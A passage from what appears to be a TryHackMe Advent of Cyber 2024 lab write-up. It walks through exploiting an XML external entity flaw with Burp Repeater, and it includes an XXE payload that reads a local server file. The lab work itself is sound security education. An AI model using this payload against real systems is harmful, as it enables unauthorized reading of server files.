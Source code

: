    Now we can send this request to Repeater so we can start exploiting the vulnerability.

   ![Repeater](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/adventofcyber2024/Advent_of_Cyber_2024_Day_5_Repeater.png)

   To use the vulnerability, we must add the following to the request.

   ```xml
   <!--?xml version="1.0" ?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
   ```

   Remember to also add the payload within the product element, `&payload;`.
